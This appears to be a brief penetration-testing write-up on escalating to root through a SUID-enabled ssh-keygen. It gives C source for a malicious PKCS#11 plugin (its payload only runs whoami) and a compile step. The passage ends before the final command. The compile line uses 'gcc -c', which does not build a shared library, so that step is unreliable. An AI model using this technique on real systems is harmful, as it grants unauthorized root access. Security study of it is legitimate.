

A little ago I encountered a system which had SUID bit set on `ssh-keygen`

SUID is a special permission that can be assigned to executable files. When an executable file has the SUID permission enabled, it allows users who execute the file to temporarily assume the privileges of the file's owner

ssh-keygen has the ability to load shared libraries during the execution of binary. You can also check it [here](https://gtfobins.github.io/gtfobins/ssh-keygen/)
We can take advantage of it, create our custom plugin which will execute system commands and load the plugin using ssh-keygen and become `root`

Here is an C example for the custom plugin:

```c
#include "pkcs11.h"
#include <stdio.h>
#include <unistd.h>

CK_RV C_GetFunctionList(CK_FUNCTION_LIST_PTR_PTR ppFunctionList) {
    
    pid_t pid = fork();

    if (pid == 0) {
        execl("/usr/bin/whoami", NULL);
    } else if(pid > 0) {
        wait(NULL);
    } else {
        perror("fork");
        return 1;
    }

    return CKR_OK;
}
```

compile it as shared library(.so ) file 
```bash
gcc -c -fPIC rce.c -o lib.so
```
if you get `fatal error: pkcs11.h: No such file or directory` error, download [this file](https://github.com/OpenSC/libp11/blob/master/src/pkcs11.h), put it in the same directory with C file and try to compile again

Now run ssh-keygen with our custom plugin
